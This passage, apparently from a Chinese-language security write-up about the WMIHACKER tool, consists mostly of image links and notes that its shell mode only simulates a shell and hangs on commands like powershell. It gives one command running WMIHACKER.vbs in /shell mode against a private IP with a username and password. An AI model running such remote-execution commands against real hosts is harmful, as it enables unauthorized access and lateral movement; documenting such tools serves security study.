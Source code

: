 [![](assets/1710899837-16940d903ca76008efec868611937966.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135003-b578a57c-dd0f-1.png)
=======
[![](assets/1710211848-6b4ab0ad8426d6f6a48ce8cca1afbbc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308134947-abc1a9d4-dd0f-1.png)

模拟 shell 模式，该模式产生的并不是交互式 shell，仅仅是便于执行命令而已，可以看到如果执行 `powershell`，下方则一直在等待执行无法结束

```bash
cscript WMIHACKER.vbs /shell 192.168.3.157 micle "admin"
```
